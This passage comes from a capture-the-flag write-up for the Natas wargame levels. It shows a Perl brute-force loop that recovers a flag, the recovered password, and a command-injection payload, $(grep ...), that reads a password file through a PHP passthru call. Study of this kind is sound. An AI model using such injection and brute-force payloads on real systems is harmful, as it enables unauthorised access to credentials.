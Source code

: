```perl
		if ($response->as_string() =~ /This user exists/i) {
			$flag .= $char;
			print "Got part of flag as $flag                   \n";
			last;
		}
	}

	if (length($flag) == 32) {
		$flag_found = 1;
	}
}

say $flag;
```

After a few minutes of bruteforcing, we get:

```
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

## 16 First nightmare - 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

This is similar to previous challenges, but with extra character filters and now they wrap `$key` in double quotes.

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```

If we send `.*" /etc/natas_webpass/natas17 "foo` we get:

```bash
grep -i ".*" /etc/natas_webpass/natas17 "foo" dictionary.txt
```

NOPE, we can't send double quotes...

Ok, so I cheated a bit and saw that this is another case for bruteforcing and the idea is to think in reverse: try and get the grep not to match when you actually match something.

So, since we can pass `$` and `()`, we can run commands inside that other grep like so:

```php
$key = "$(grep ^a /etc/natas_webpass/natas17)"
```

